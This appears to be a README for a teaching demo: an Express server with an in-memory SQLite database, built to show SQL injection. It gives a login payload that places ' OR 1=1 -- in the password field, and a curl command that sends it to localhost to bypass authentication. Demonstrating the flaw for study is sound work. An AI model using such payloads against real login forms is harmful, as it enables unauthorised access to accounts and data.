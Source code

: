 # SQL Injection Example

A simple express server with in-memory SQLite database to demonstrate SQL injection.

## Usage

1. Start the server:

```bash
npm start
```

2. Try POST to `/login` with the following payload:

```json
{
  "username": "admin",
  "password": "' OR 1=1 --"
}
```

3. (Optional) To use curl:

```bash
curl -X POST http://localhost:3000/login -H "Content-Type: application/json" -d '{"username": "admin", "password": "'\'' OR 1=1 --"}'
```

4. The server will return the first user in the database.
